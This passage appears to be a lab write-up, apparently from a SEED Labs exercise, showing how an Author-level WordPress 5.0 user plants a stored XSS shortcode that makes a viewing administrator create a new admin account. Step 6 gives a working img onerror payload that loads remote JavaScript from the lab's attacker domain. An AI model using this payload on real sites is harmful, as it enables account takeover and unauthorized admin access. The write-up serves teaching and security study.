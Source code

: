  4) email
 5) pass1 -password
 6) pass2 -password
 7) role
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/Post%20param.PNG?raw=true "Post param")
4. Wrote a malicious JavaScript code ([addNew2.js](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/addNew2.js?raw=true "JavaScript program file addNew2.js")), hosted the file on the attacker's webserver
- used SEEDLab domain-"http://www.csrflabattacker.com".
- the JavaScript code will add a new WordPress account with the username="attacker", email="attacker@gmail.com", password="attacker", role=**administrator**.\
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/attacker's-website.PNG?raw=true "attacker's-website")
5. Created a new non-administrative user, made sure the user has no right to add a user
- I chose [Author], who has the right to post but not to add a user.
- The author is the attacker in this scenario.
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/author-rights.PNG?raw=true "author-rights")
6. As an author, the attacker was posting a malicious code (Shortcode) 
- that directs the victim to visit the attacker's malicous website "http://www.csrflabattacker.com" consists of the malicious JavaScript program ([addNew2.js](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/addNew2.js?raw=true "JavaScript program file addNew2.js")).
- `"&gt;&lt;img src=1 onerror="javascript&colon;(function () { var url = 'http://www.csrflabattacker.com/addNew2.js';if (typeof beef == 'undefined') { var bf = document.createElement('script'); bf.type = 'text/javascript'; bf.src = url; document.body.appendChild(bf);}})();"&gt;`
- It is same as `<shortcode>`**`>`** **`<img src=1 ....document.body.appendChild(bf);}})();>`**`</shortcode>`
- Because of the **`>`** before `<img>` tag, `<img src=1...document.body.appendChild(bf);}})();>` is recognized and interpretated as an html tag and is rendered/executed by the browser 
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/author-posting.PNG?raw=true "author-posting")
7. The attacker posted the code, others cannot see the contents
- When the victim is an administrator, the code will add a new administrator user.
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/author-post-done.PNG?raw=true "author-post-done")
8. As an administrator, viewed the attacker's post
- The code should be executed and a new administrator user should be added at this point.
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/admin-view-post.PNG?raw=true "admin-view-post")
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/viewing-post.PNG?raw=true "viewing-post")
10. "attacker", as an **administrator**, was added to Users
- Now, the attacker can use this account having the administrative control to the blog as he/she knows its username and password.
- (Note that the screenshot was taken when the email was set to attacker@site.com instead of attacker@gamil.com)
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/result-added.PNG?raw=true "result-added")
11. Checked if the attacker can login to the new account
- Username="attacker", password="attacker".\
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/login-to-attacker.PNG?raw=true "login-to-attacker")
12. Attacker was successfully loged in to the account
![image-title](/V2%20wordpress%205.0%20version/add%20a%20new%20admin%20user/[screenshots]add-a-new-admin-user/attacker-login-success.PNG?raw=true "attacker-login-success")

